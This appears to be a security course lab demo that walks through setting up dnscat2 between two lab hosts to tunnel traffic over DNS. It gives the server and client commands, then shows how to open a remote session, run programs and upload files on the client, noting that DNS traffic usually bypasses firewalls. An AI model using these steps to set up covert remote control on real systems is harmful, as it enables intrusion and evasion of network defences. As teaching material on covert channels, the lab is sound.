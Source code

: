 == DNSCAT2 Demo

{empty} +

*Learning Objectives / Outcomes*

.SKILL 10: Perform file transfers

** 10.2 Describe covert methods for transferring files

{empty} +

.SKILL 12: Define the principles of tunneling network traffic

** 12.4 Explain the challenges of discovering covert channels

{empty} +

== Demo Walk-through

{empty} +

_DNSCAT is designed much like netcat but with some specific and interesting additional features. The tool allows hosts to communicate over the Internet via DNS. 
The client side of the tool will route all traffic through the local DNS server. The traffic is forwarded to the server side of the tool, which needs to be an authoritative DNS server.
You can use the tool without a domain however, and connect the client and server directly as a proof of concept. A big advantage of this tool is that DNS traffic generally bypasses host and network firewalls._

{empty} +

In this demonstration, H1 (Debian GUI host) will act as the client. This is so that we can watch the traffic via wireshark. H3 (Debian CMD Line host) will act as the server.

*Follow the below steps*


{empty} +


=== Server Setup
 
{empty} +
 
1) Log into H3. It is best to make yourself root, so you don't have to use sudo as you bring up the tool.

2) Navigate to /dnscat2/server/

3) Run the server script with the following command:  "ruby dnscat.rb --secret=SECRET"  (the secret can be anything you choose, it is for encryption of the channel [PSK])

4) If the server comes up successfully, you should see your prompt change to: dnscat2>

5) Now that your server is up and running, you can connect to it with your client.

{empty} +

=== Client Setup
 
{empty} +
 
  
1) Log into H1. Bring up a shell; it is best to make yourself root, so you don't have to use sudo as you bring up the tool.

2) Navigate to /dnscat2/client/

3) Ensure that the dnscat executable file exists in this directory. If not, simple use the command: "make" to complete the client installation;

4) Connect the client to the server with the following command:  "./dnscat --dns server=10.2.0.4,host=10.1.0.2,port=53 --secret=SECRET"  (the secret is whatever you set on the server for encryption of the channel [PSK])

5) This should connect the client successful and display a message that the connection is established.

6) You should open wireshark and observe the DNS traffic that this connection creates.

7) Leaving the connection open, move back over to the server.

{empty} +

=== Accessing the client from the server
 
{empty} +
 
1) Back at the H3 host (server), check the windows (which are the connected clients) with the command: "windows"
 
2) once you identify the session number assigned to the client connection you made from H1, you can enter a shell and interact with the client.
 
3) Use the command: "session -i 1"  (the connection number should be 1, but if not, use the appropriate number)

4) From here, you can use the "help" option to see the commands that are available.

5) you can open programs on the remote machine with "exec [program...like firefox]" or try uploading a file from the server to the client with the "upload" command.
 
_Imagine the power this provides to the person in control on the server!_
 
{empty} +
 
*References:* 

** https://wiki.skullsecurity.org/Dnscat

